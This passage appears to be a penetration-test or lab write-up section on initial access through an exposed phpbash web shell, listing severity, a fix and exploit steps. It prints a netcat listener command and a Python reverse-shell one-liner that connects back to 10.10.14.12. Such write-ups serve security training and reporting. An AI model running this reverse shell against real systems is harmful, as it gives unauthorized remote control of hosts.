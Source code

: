 
\newpage

#### Initial Access

**Vulnerability Exploited:** Command Injection / Remote Code Execution

**Vulnerability Explanation:** 

Phpbash is a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible.

Reference: *https://github.com/Arrexel/phpbash*

**Vulnerability Fix:**

Remove access to */dev/phpbash.php* and */dev/phpbash_min.php* in the webserver.

**Severity:** Critical

**Exploit Code:**

Start a netcat listener:

```txt
nc -lvnp 4321
```

Enter the following code into the phpbash prompt:

```bash
export RHOST="10.10.14.12";export RPORT=4321;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```


**Local.txt Proof Screenshot**

![x](screenshots-storage/local.txt.png)
